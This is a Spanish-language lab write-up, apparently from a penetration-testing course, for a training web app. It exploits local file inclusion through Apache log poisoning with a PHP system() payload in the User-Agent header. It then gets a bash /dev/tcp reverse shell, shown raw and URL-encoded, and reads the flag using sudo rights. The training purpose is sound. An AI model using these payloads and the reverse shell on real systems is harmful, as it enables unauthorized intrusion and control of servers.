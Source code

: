 # Walk: laboratorio 1 de 3 LFI

## Fecha: 19/01/2025
## Host: Ubuntu
## IP: 192.168.244.16

---

## Objetivo
Follow the steps in this section and leverage the LFI vulnerability 
in the web application (located at http://mountaindesserts.com/meteor/) 
to receive a reverse shell on WEB18 (VM #1). Get the flag from the **/home/ariella/flag.txt file.**
To display the contents of the file, 
check your sudo privileges with sudo -l and use them to read the flag.

---
## Herramientas
1. curl
2. burp
---
## Procedimiento y comandos
1. Paso 1: Probamos con curl la accebilidad a los archivos (Directory Traversal):
	- **curl -i http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd**
	- Respuesta positiva.
2. Paso 2: Verificamos el parametro de las cabeceras que puede servir para tomar el payload:
	- **curl -i http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log**
	- Obtenemos de la respuesta que el User-Agent puede recibir payload.
3. Paso 3: Enviamos un payload para envenenar con PHP system y echo, el archvio access.log y habilitar RCE
	- **User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>**	
4. Paso 4: Ejecutamos el payload reenviando la solicitud con el parametro path modificado y **sin user Agent** para no reenvenenar innecesariamente.
	- **GET /meteor/index.php?page=../../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1**
	- Verificamos en la respuesta la devolucion del comando ps
	- Resultado positivo, RCE confirmado.
5. Paso 5: Listamos el directorio y vamos por el reverse-shell:
	- **GET /meteor/index.php?page=../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la HTTP/1.1**
	- Resultado positivo
	* Reverse Shell:
	- **bash -c "bash -i >& /dev/tcp/{mi_ip}/4444 0>&1"** antes de enivar el reverse shell ejecutamos nc y codificamos el reverseshel
	- **nc -nlvp 4444**
	- **bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{mi_ip}%2F4444%200%3E%261%22**
	- ** GET /meteor/index.php?page=../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{mi_ip}%2F4444%200%3E%261%22**
6. Paso 6: Obtener el flag:
	- Al ingresar revisamos nuestros privilegios sudo:
	- ** sudo -l **
	- Obtenemos: User www-data may run the following commands on 4290c9094b53:
    	(ALL : ALL) ALL
    	(ALL) NOPASSWD: ALL
	- Esto significa que podemos ejecutar cualquier comando como administrador
	- **sudo cat /home/ariella/flag.txt**
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

